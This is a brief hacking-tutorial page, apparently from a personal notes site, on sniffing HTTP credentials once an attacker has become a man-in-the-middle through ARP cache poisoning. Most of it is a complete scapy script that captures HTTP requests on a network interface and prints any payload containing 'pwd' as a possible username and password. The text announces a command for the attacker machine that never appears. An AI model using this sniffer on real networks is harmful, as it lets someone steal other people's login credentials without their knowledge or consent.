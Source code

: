 ```yaml
---
title: "HTTP credentials sniffing"
date: 2019-01-09
# geekdocFlatSection: false
# geekdocToc: 6
# geekdocHidden: false
---
```


After we become the [mitm][arp_cache_poisoning] we can sniff all HTTP requests. This time using scapy's buildin sniffing function.   
In the code we are checking for HTTP credentials.  
To get this code to work you first need to run arp cache poisoning and run this command on attacker machine:  

[arp_cache_poisoning]: https://jwever.bitbucket.io/lan/exploitation/mitm/arp_cache_poisoning/

Full code:  

```python
import scapy.all as scapy
from scapy.layers import http

def sniff(interface):
    scapy.sniff(iface=interface, store=False, prn=process_sniffed_packet)

def get_url(packet):
    return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path

def get_login_info(packet):
    if packet.haslayer(scapy.Raw):
        load = packet[scapy.Raw].load
        keywords = ["pwd"]
        for keyword in keywords:
            if keyword in load:
                return load

def process_sniffed_packet(packet):
    if packet.haslayer(http.HTTPRequest):
        url = get_url(packet)
        print("[+] HTTP Request >> " + url)

        login_info = get_login_info(packet)
        if login_info:
            print("\n[+] Possible username/password > " + login_info + "\n")



sniff("enp7s0")
```
